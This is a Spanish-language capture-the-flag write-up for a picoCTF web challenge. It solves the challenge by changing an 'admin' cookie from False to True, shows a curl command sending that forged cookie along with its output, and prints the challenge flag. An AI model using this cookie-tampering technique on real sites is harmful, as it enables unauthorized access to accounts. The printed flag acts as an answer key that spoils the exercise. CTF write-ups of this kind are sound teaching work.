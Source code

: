 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796
## Solución 
```
Agregas el cookie editor, te logueas como joe y no te sale la bandera porque joe es el unico que no puede entrar pero si entras con otro usuario y contraseña si entras pero tampoco sale la bandera.
Vas a las cookies y en la de admin le cambias el False por True, recargas la página y te sale la bandera
picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}


En cosola puedes entrar con curl 
fabiolagarcia-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   2899      0 --:--:-- --:--:-- --:--:--  2902
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
fabiolagarcia-picoctf@webshell:~$ 

```
## Notas adicionales
- En consola curl funciona para entrar a un sitio web
http es el protocolo de transferencia de hipertexto es decir que así habla el navegador con el servidor
http headers permiten al navegador (cliente) en donde va la información.


## Referencias